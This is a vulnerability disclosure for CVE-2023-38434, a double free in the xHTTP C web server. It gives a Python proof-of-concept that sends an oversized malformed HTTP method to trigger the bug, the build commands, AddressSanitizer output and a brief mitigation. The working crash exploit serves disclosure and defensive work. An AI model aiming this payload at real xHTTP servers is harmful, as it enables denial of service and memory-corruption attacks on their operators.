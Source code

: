# CVE-2023-38434

xHTTP contains a double free vulnerability in close_connection at xhttp.c, line 595.

https://github.com/cozis/xHTTP/blob/72f812dcb77629c55fba1fd1ed91d13a4b380f90/xhttp.c#L595

The double free can be triggered with a malformed HTTP request method. For example, the following python3 script will make a request to the server with a malformed HTTP request method to trigger the double free:

```
#!/usr/bin/env python3

import socket

sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

sock.connect(('localhost', 8080))

http_headers = (
    #Request - http_headers
    b'MALFORMEDMETHOD'*1000  +  # HTTP Method (POST Request).  Sending malformed HTTP Methods invokes a double free in xHTTP
    b' '  
    b'/'  
    b' HTTP/1.0'  
    b'\r\n' 
    b'Host: '  
    b'localhost'  
    b':'  
    b'8080'  
    b'\r\n'  
    b'Accept-Encoding: '  
    b'identity'  
    b'\r\n'  
    b'Content-Type: '  #Content type
    b'application/json'  #JSON content type
    b'\r\n'  
    
    b'Connection: close\r\n'  
    b'User-Agent: '  
    b'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/42.0.2311.135 Safari/537.36 Edge/12.246'  
    b'\r\n'  

    b'Content-Length: '  
    b'152'  #Size - Content-Length_size
    b'\r\n'  
    b'\r\n'  #Delim - crlf_headers_body
        #Block - post_body
        b'data=Somepostdata'  

)

sock.send(http_headers)
sock.recv(65535)

sock.close()
```

To confirm the issue, I first compiled the example server with debug symbols and address sanitizer:
```
gcc example.c  xhttp.c -o main -fsanitize=address -g
```

Once the server was compiled, I executed the server on port 8080

#### xHTTP Server
```
$ ./main
```

After the server was up and running I saved the python3 script I created from above and executed it, triggering a double free.
#### Python3 script
```
$ python3 poc.py
```

### Address Sanitizer Output

```
=================================================================                       
==460363==ERROR: AddressSanitizer: attempting double-free on 0x611000000040 in thread T0:
    #0 0x7f7cfaab76a8 in __interceptor_free ../../../../src/libsanitizer/asan/asan_malloc_linux.cpp:52
    #1 0x562a5c0a1727 in close_connection /home/kali/projects/fuzzing/xHTTP/xhttp.c:595 
    #2 0x562a5c0a9406 in xhttp /home/kali/projects/fuzzing/xHTTP/xhttp.c:1749                                                                                                   
    #3 0x562a5c09f693 in main /home/kali/projects/fuzzing/xHTTP/example.c:37            
    #4 0x7f7cfa846189 in __libc_start_call_main ../sysdeps/nptl/libc_start_call_main.h:58            
    #5 0x7f7cfa846244 in __libc_start_main_impl ../csu/libc-start.c:381                 
    #6 0x562a5c09f420 in _start (/home/kali/projects/fuzzing/xHTTP/main+0x5420)         
                                                                                                                                                                                
0x611000000040 is located 0 bytes inside of 256-byte region [0x611000000040,0x611000000140)
freed by thread T0 here:                                                                
    #0 0x7f7cfaab76a8 in __interceptor_free ../../../../src/libsanitizer/asan/asan_malloc_linux.cpp:52   
    #1 0x562a5c0a3a4b in parse /home/kali/projects/fuzzing/xHTTP/xhttp.c:868            
    #2 0x562a5c0a7371 in when_data_is_ready_to_be_read /home/kali/projects/fuzzing/xHTTP/xhttp.c:1459
    #3 0x562a5c0a92e0 in xhttp /home/kali/projects/fuzzing/xHTTP/xhttp.c:1735           
    #4 0x562a5c09f693 in main /home/kali/projects/fuzzing/xHTTP/example.c:37            
    #5 0x7f7cfa846189 in __libc_start_call_main ../sysdeps/nptl/libc_start_call_main.h:58
                                                                                        
previously allocated by thread T0 here:                                                                                                                                         
    #0 0x7f7cfaab78d5 in __interceptor_realloc ../../../../src/libsanitizer/asan/asan_malloc_linux.cpp:85
    #1 0x562a5c0a2dca in parse /home/kali/projects/fuzzing/xHTTP/xhttp.c:813            
    #2 0x562a5c0a7371 in when_data_is_ready_to_be_read /home/kali/projects/fuzzing/xHTTP/xhttp.c:1459
    #3 0x562a5c0a92e0 in xhttp /home/kali/projects/fuzzing/xHTTP/xhttp.c:1735
    #4 0x562a5c09f693 in main /home/kali/projects/fuzzing/xHTTP/example.c:37
    #5 0x7f7cfa846189 in __libc_start_call_main ../sysdeps/nptl/libc_start_call_main.h:58

SUMMARY: AddressSanitizer: double-free ../../../../src/libsanitizer/asan/asan_malloc_linux.cpp:52 in __interceptor_free

```

## Mitigation 

Implementing a check to ensure ' conn->request.public.headers.list ' is only freed once will mitigate this vulnerability.
